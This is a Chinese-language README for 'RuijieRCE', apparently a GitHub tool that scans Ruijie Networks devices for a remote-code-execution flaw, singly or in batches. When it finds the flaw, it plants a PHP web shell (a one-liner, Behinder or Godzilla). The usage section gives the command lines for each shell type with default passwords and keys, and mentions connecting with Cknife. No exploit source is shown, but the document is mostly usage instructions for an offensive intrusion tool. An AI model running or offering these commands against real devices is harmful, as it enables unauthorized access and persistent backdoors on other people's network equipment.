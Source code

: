 # RuijieRCE
#Tools
Ruijie Networks RCE漏洞检测工具，为方便渗透测试使用，可以批量检测，也会生成历史记录。同时也为防止他人恶意使用，可自定义GET参数密码，该密码由sha256加密，难以破解。同时也可以上传冰蝎马或者哥斯拉马。



## 参数
```bash
Usage of ./RuijieRCE:
  -f string
    	导入.txt文件批量扫描
  -k string
    	写入shell密钥，一句话马默认为cmd，哥斯拉马默认为key，冰蝎马没有密钥
  -n string
    	写入shell默认一句话马🐎，B冰蝎马，G哥斯拉马
  -p string
    	写入shell密码，一句话马默认为cmd，哥斯拉马默认为pass，冰蝎马默认为rebeyond
  -u string
    	目标URL
```

## 使用
检测到漏洞后生成随机数.php文件执行命令，也可以上菜刀。
![](./Cknife.png)

![](RuijieRCE/Cknife.png)

### 上传一句话木马
GET密码：cmd
POST密码：cmd
```bash
./RuijieRCE -u http://127.0.0.1:4430
```

#### 设置密码
-n参数为POST密码，-p参数为GET密码
这两个参数缺省时均为cmd，可以只设置一个或者同时都设置
```bash
./RuijieRCE -u http://127.0.0.1:4430 -n asd -p zxc
```

### 上传冰蝎马
默认密钥为rebeyond，也可以使用-p参数修改
```
./RuijieRCE -u http://127.0.0.1:4430 -n B -p rebeyond
```

### 上传哥斯拉马
哥斯拉加密器使用BASE64，默认密码为pass，密钥为key
```
./RuijieRCE -u http://127.0.0.1:4430 -n G -p pass -k key
```

### 批量测试
批量测试时也可以设置上传冰蝎马、哥斯拉马以及自定义密码
```bash
./RuijieRCE -f url.txt
```